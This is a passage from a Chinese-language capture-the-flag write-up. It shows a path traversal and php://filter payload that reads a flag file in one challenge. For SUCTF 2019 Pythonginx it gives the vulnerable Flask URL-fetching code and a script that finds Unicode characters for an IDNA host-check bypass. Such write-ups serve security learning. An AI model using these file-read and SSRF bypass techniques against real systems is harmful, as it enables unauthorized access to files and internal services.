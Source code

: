 ```html
          </form>

          </div>
        </div>
      </main>
    </div>
    <script src="js/material.min.js"></script>
  </body>
</html>	
```

尝试`category=woofers/../flag`

有回显，那么构造：`?category=php://filter/convert.base64-encode/resource=woofers/../flag`

或者`php://filter/read=convert.base64-encode/woofers/resource=flag`等等都可以

## [SUCTF 2019]Pythonginx



源码：

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

进行了3次if判断，第二次和第三次判断之间有个编码操作，需要绕过前两个if

```python

# coding:utf-8 
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```
